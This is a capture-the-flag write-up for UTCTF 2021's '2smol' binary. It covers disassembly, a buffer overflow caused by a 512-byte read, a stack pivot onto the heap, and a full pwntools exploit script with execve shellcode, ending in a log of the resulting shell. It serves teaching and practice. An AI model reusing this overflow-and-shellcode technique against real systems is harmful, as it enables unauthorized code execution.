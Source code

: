```yaml
---
layout: post
title: "[UTCTF 2021] 2smol"
author: Green-Avocado
---
```


# 2smol

## Challenge

I made this binary 2smol.

nc pwn.utctf.live 9998

by `hukc`

### Mitigations:

No RELRO,No Canary found,NX disabled,No PIE,No RPATH,No RUNPATH,Symbols,No,0,0,smol

### Functions:

```asm
[0x00401000]> afl
0x00401000    1 13           entry0
0x0040100d    1 22           main
0x00401023    1 33           loc._read
```

#### Disassembled main:

```asm
[0x00401000]> pdf @ main
            ; CALL XREF from entry0 @ 0x401000
┌ 22: int main (int argc, char **argv, char **envp);
│           ; var int64_t var_8h @ rbp-0x8
│           0x0040100d      55             push rbp
│           0x0040100e      4889e5         mov rbp, rsp
│           0x00401011      4883ec08       sub rsp, 8
│           0x00401015      488d7df8       lea rdi, [var_8h]           ; int64_t arg1
│           0x00401019      e805000000     call loc._read
│           0x0040101e      4889ec         mov rsp, rbp
│           0x00401021      5d             pop rbp
└           0x00401022      c3             ret
```

The `main` function calls `loc._read` and passes a pointer to `$rbp-0x8`, then returns.

#### Disassembled read:

```asm
[0x00401000]> pdf @ loc._read
            ; CALL XREF from main @ 0x401019
┌ 33: loc._read (int64_t arg1);
│           ; arg int64_t arg1 @ rdi
│           0x00401023      55             push rbp
│           0x00401024      4889e5         mov rbp, rsp
│           0x00401027      4883ec08       sub rsp, 8
│           0x0040102b      4889fe         mov rsi, rdi                ; arg1
│           0x0040102e      bf00000000     mov edi, 0
│           0x00401033      ba00020000     mov edx, 0x200              ; 512
│           0x00401038      b800000000     mov eax, 0
│           0x0040103d      0f05           syscall
│           0x0040103f      4889ec         mov rsp, rbp
│           0x00401042      5d             pop rbp
└           0x00401043      c3             ret
```

The `loc._read` function executes a syscall, `read(0, *buf, 0x200)`, where `*buf` is the pointer to a local variable in main.
As this will read more characters than the buffer size, we can overwrite the stored `$rbp` and `$rsp`, and 0x190 bytes after that.

## Solution

As NX is disabled, we can write and execute arbitrary code to memory.

I used code from [shellstorm](http://shell-storm.org/shellcode/files/shellcode-806.php).

```asm
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-- /home/user/Documents/ctf/2smol/smol
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x /home/user/Documents/ctf/2smol/smol
0x0000000000402000 0x0000000000403000 0x0000000000000000 rw- [heap]
0x00007ffff7ff9000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
```

Both the heap and stack should have `rwx` permissions.
My machine prevents this, but this has been disabled to test the exploit.
Stack addresses are randomized at runtime, however the heap is not.
We can shift the location of our callstack onto the heap to write and execute our shellcode.

On the first read, we fill the buffer with 0x8 bytes, then we overwrite the saved `$rbp` with a location on the heap, and we overwrite the return address to point at the instruction before `loc._read` is called.
This allows us to call read again and write our shellcode to the heap.

On the second read, we fill the buffer, base pointer, and return address with anything.
Then we overwrite the return address to point the location our shell code will be place, followed by our shellcode.

Sending these payloads to the server gives us a shell where we can find and read the flag file.

## Exploit

```py
#!/usr/bin/env python3

from pwn import *

#p = process("./smol")
p = remote('pwn.utctf.live', 9998)

shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

main = 0x0040100d
stack = 0x402500

context.terminal = ['tmux', 'splitw', '-h']

#gdb.attach(p, '''
#b*0x40101e
#''')

payload1 = b''
payload1 += b'A' * 0x8 #padding
payload1 += p64(stack) #rbp
payload1 += p64(main + 8) #rip
payload1 += b'B' * (0x200 - 0x8 * 3)

payload2 = b''
payload2 += b'C' * 0x8 #padding
payload2 += b'D' * 0x8 #rbp
payload2 += p64(stack+0x10) #rip
payload2 += shellcode

p.send(payload1)
p.send(payload2)

p.interactive()
```

```
-> % ./exploit.py                     
[+] Opening connection to pwn.utctf.live on port 9998: Done
[*] Switching to interactive mode
$ whoami
srop
$ ls
flag.txt
$ cat flag.txt
utflag{srop_xd}
```


